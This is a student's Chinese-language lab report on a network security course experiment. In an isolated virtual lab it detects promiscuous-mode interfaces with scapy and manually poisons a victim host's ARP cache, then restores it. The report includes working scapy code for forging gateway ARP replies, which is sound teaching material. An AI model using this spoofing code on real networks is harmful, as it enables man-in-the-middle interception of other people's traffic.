









## 网络安全第四章实验报告 

### 网络拓扑结构 
 

身份 | 虚拟机名称 |   IP  | MAC地址
-|-|-|-
网关 | debian | 172.16.111.1 | 08:00:27:31:a5:65|
攻击者主机 | kali-attacker | 172.16.111.118 |08:00:27:38:f0:53 |
目标靶机 | victim-kali-1 | 172.16.111.108 | 08:00:27:a4:68:ab |

实验准备
* 在攻击者主机安装scapy
  * 不明白为什么要特地安装，kali不是有自带的吗
  * 装了之后启动有问题，所以还是用了自带的emm
```
sudo apt update && sudo apt install python3 python3-pip
pip3 install scapy[complete]
```

 

### 实验一 检测局域网中的异常终端
1. 在受害者主机上检查网卡的「混杂模式」是否启用
   ```
   ip link show eth0
   ```

    

2. 在攻击者主机上开启scapy

   

3. 在 scapy 的交互式终端输入以下代码回车执行

   （这里scapy报错权限不够所以切成了root用户）

   ```pkt = promiscping("172.16.111.108")```

   

4. 回到受害者主机上开启网卡的「混杂模式」

   ```sudo ip link set eth0 promisc on```

   

5. 回到攻击者主机上的 scapy 交互式终端继续执行命令，比较差异

   

6. 在受害者主机上手动关闭网卡的「混杂模式」
   
   

### 实验二 手工单步“毒化”目标主机的 ARP 缓存

以下未特殊标记操作均作用于攻击者主机

1. 获取当前局域网的网关 MAC 地址
```
# 构造一个 ARP 请求
arpbroadcast = Ether(dst="ff:ff:ff:ff:ff:ff")/ARP(op=1, pdst="172.16.111.1")

# 查看构造好的 ARP 请求报文详情
arpbroadcast.show()

# 发送这个 ARP 广播请求
recved = srp(arpbroadcast, timeout=2)

# 网关 MAC 地址如下
gw_mac = recved[0][0][1].hwsrc
```




2. 伪造网关的 ARP 响应包发送给受害者主机
```
# ARP 响应的目的 MAC 地址设置为攻击者主机的 MAC 地址
arpspoofed=ARP(op=2, psrc="172.16.111.1", pdst="172.16.111.108", hwdst= "08:00:27:38:f0:53")
# 发送上述伪造的 ARP 响应数据包到受害者主机
sendp(arpspoofed)
```


3. 在受害者主机上查看 ARP 缓存

 

  * 没有被毒化，看到有同学说构造时需要加Ethernet帧头
  
  ```
  arpspoofed=Ether()/ARP(op=2, psrc="172.16.111.1", pdst="172.16.111.108", hwdst="08:00:27:38:f0:53")
  sendp(arpspoofed)
  ```
  
  
  * 再次在受害者主机上查看 ARP 缓存，网关的 MAC 地址已被替换为攻击者主机的 MAC 地址

   

4. 恢复受害者主机的 ARP 缓存记录
```
# 伪装网关给受害者发送 ARP 响应
restorepkt1 = Ether()/ARP(op=2, psrc="172.16.111.1", hwsrc="08:00:27:31:a5:65", pdst="172.16.111.108", hwdst="08:00:27:a4:68:ab")
sendp(restorepkt1, count=100, inter=0.2)
```

 

5. 在受害者主机上“刷新”网关 ARP 记录
```
# 在受害者主机上ping网关
ping 172.16.111.1
#  再次查看ARP缓存
ip neigh
```

 

### 参考资料
* https://c4pr1c3.github.io/cuc-ns/chap0x04/exp.html
* https://github.com/CUCCS/2020-ns-public-AlinaZxy/blob/chap04/chap04/chap04.md